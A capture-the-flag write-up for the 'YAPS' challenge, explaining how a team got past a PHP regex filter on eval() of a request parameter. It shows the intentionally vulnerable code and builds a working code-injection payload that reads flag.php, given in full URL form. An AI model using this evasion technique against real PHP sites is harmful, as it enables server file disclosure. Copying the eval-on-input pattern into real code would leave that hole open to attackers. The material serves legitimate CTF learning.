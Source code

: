 ```yaml
---
title: YAPS
contest: Timisoara CTF Finals 2018
authors: trupples
layout: writeup
---
```


This was one of the most engaging challenges and our team had a lot of fun
working together towards the solution.

```php
 <?php

$k = $_REQUEST['k'];
// just one simple trick.. now all hackers hate him
if (preg_match("/[\w]{3,}/is", $k) || preg_match("/\.|\"|'|\[/s", $k) || strlen($k) > 100) die('nope');

eval($k);

highlight_file(__FILE__);
```

It consists of a PHP file which eval()'s a GET parameter if it passes some
checks, namely it must be shorter than 100 characters, it can not contain any
`.`, `'`, `"` or `[` characters, and it can't have more than two consecutive
letter or underscore combinations. We approached these restrictions from quite
a different perspective than the one presented in the author's writeup [[1]] so
be sure to check it out as well.

## Strings longer than 2 word characters

One thing we really needed to figure out was being able to construct strings
with more than 2 word characters. We tried some methods of appending small 2
character strings and eventually settled on heredoc variable interpolation.

In PHP there are a bunch of ways of writing out strings. The simplest is just
writing some word characters not enclosed by anything and not separated by any
non-word characters:

```php
$a = mystring;
var_dump($a); # => string(8) "mystring"
```

Two other string syntaxes are single and double quoted strings but we can not
use those because the check would fail. The last and most useful one for this
task is the heredoc [[2]] syntax. It has its drawbacks such as more "wasted"
characters and the inability to inline it as it is only available for
`$var = string;` statements. The syntax is as follows:

```php
$b = <<<DELIMITER
string
can be
multiline
DELIMITER;
var_dump($b);	# => string(23) "string
				# can be
				# multiline"
```

The conditions for this to work are that the two delimiters must be the same
and that there must be a newline after the first delimiter and immediately
before the second.

One useful feature of double quote and heredoc strings is variable
interpolation. This means that variable names inside strings will be replaced
with the variable's contents. For example:

```php
$a = "Hello,";
$b = "World!";
$greeting = <<<TRUPPLES
$a $b
TRUPPLES;
echo $greeting;	# => Hello, World!
```

We used this to create strings longer than the 2 character limit like so:

```php
$a=re;
$b=ad;
$c=fi;
$d=le;
$e=<<<Z
$a$b$c$d
Z;
echo $e;	# => readfile
```

This can be further optimised by inlining the `$a` part, thus saving 4
characters:

```php
$b=ad;
$c=fi;
$d=le;
$e=<<<Z
re$b$c$d
Z;
echo $e;
```

## No `.` characters

For our first payload we tried embedding the flag filename and readfile
function name in the payload itself. This proved difficult as `flag.php`
contains a `.` character which is forbidden. Later on we changed the payload to
a much simpler and more flexible one.

To be able to use a `.` character we used the `chr()` function, but because its
name is longer than 2 characters we needed to build its name like in the
snippet from before.

```php
$a=hr;
$b=<<<Z
c$a
Z;
$c=$b(46);
echo $b;	# => chr
echo $c;	# => .
```

To build the flag filename we did the following:
```php
$a=hr;
$c=<<<Z
c$a
Z;	# chr

$a=ag;
$b=hp;
$B=<<<Z
fl$a{$c(46)}p$b
Z;
# fl$a{$c(46)}p$b
# ||||   |    |||
# flag   .    php
```

## Function choice

Initially we tried using `file_get_contents`, `readfile` and some others but
couldn't get under the 100 char limit. Using the `file` funtion we were able to
do so and read the flag file line by line. It is comparatively way shorter and
this is very helpful, especially for this task where every byte mattered.

One trick we needed to use is using curly brackets instead of square brackets
for indexing the returned line array:

```php
file("flag.php"){2}	# works
file("flag.php")[2]	# gets matched by regex - would have worked the same
```

## Getting back the results

Now we're able to read the flag file but there's a slight problem. `readfile`
sends the file contents to the output buffer, which is most convenient, whereas
`file` returns them.

The first option to think of is `echo`-ing the return value but it cannot be
used as it's 4 characters long. Another variant would be creating a string
like we did with `chr` with the name of the `var_dump` or `print_r` functions,
but that got over the 100 character limit.

What worked out well was using an `<?= expression ?>` short echo tag which
evaluates the given expression and then `echo`-es the result. For example:

```php
<?php
$A = "file_get_contents";
$B = "http://example.com/";
?>
<?= $A($B) ?>	# => echoes the contents of the example.com index page
```

## The first payload

To put it all together, out first payload looked like:

```php
# $c = 'chr'
$a=hr;
$c=<<<Z
c$a
Z;

# $A = 'file'
$b=le;$A=<<<Z
fi$b
Z;

# $B = 'flag.php'
$a=ag;$b=hp;$B=<<<Z
fl$a{$c(46)}p$b
Z;
?>

# Print file("flag.php")[2]
<?=$A($B){2}?>
```

Or in URL form:

`http://89.38.210.129:8095/?k=$a=hr;$c=<<<Z%0Ac$a%0AZ;%0a$b=le;$A=<<<Z%0afi$b%0aZ;%0a$a=ag;$b=hp;$B=<<<Z%0afl$a{$c(46)}p$b%0aZ;%0a?><?=$A($B){2}?>`

Accessing this URL got the flag:
```
// timctf{not_so_much_intended___new_flag_for_you}
```

[1]: https://github.com/DarkyAngel/My-CTF-Challenges
[2]: https://secure.php.net/manual/en/language.types.string.php#language.types.string.syntax.heredoc
